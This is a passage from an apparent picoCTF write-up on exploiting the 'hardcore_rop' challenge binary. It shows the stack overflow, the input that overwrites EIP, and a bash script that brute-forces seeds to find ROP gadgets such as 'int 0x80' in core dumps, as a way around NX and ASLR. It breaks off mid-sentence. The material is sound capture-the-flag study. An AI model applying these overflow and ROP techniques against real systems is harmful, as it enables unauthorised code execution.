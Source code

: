 The memory region containing the random ROP gadgets is set to executable. However, we control the seed value, so we can "choose" which gadgets are generated. Secondly, this function causes a buffer overflow thanks to the following code:

```c
	size_t x, count = 0;
	do x = read(0, ((char*)&seed)+count, 555-count);
	while(x > 0 && (count += x) < 555 && ((char*)&seed)[count-1] != '\n');
```

This function starts to overwrite the stack up to the point were the saved return address is. Very nice! First, let's enable coredumps and get control of EIP.

```bash
bas@tritonal:~/tmp/picoctf/hardcorrop$ (echo 7777; python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"') | ./hardcore_rop `pwd`
yo, what's up?
ROP time!
Segmentation fault (core dumped)
bas@tritonal:~/tmp/picoctf/hardcorrop$ gdb hardcore_rop core
GNU gdb (GDB) 7.4.1-debian
...
Core was generated by `./hardcore_rop /home/bas/tmp/picoctf/hardcorrop'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Excellent! After we send a seed value (7777), we supply a buffer that overwrites the saved return address on the stack. But we cannot just put our shellcode on the stack and execute it, because of NX. We can't write into the region at `0xf000000` because it isn't writeable. Furthermore, most of the address are randomized due to PIE and ALSR. Only the ROP gadgets at `0xf000000` are always at the same location. We need to find enough ROP gadgets to make the region at `0xf000000` writeable, so that we can store shellcode there and execute it. 

For this to work, we need two things: control over registers and an `int 0x80` instruction, to execute syscalls. The region at `0xf000000` contains 40960 bytes, filled with random ROP gadgets. There could be an `int 0x80; ret;` in there. The chances are slim, but there's a chance nonetheless. I scripted the search for ROP gadgets with the following:

```bash
#!/bin/bash

while read i; do
	(echo $i; echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB") | ./hardcore_rop `pwd`
	dd if=core of=region bs=1 skip=4096 count=40960
	xxd -c 1 region | awk {'print $1 $2'} |sort -r > dump.txt
	python ./ropgadget.py -i bleh -d 10 > $i-gadgets.txt

	cat $i-gadgets.txt |egrep 'int 0x80'
	rm core
	rm dump.txt
done < digits.txt
```

This script does the following: it runs the program and sends a seed value for the ROP gadget generation. Then, it crashes the program. From the coredump, it extracts the region at `0xf000000` and proceeds to dump all these bytes into a textfile. Finally, my custom [ropgadget.py](https://gist.github.com/barrebas/4fc86eaf0e9b124813a3) searcher extracts all the ROP gadgets. It is slightly modified to work with this setup. I let this script run for a few hours. After a while, I ran 
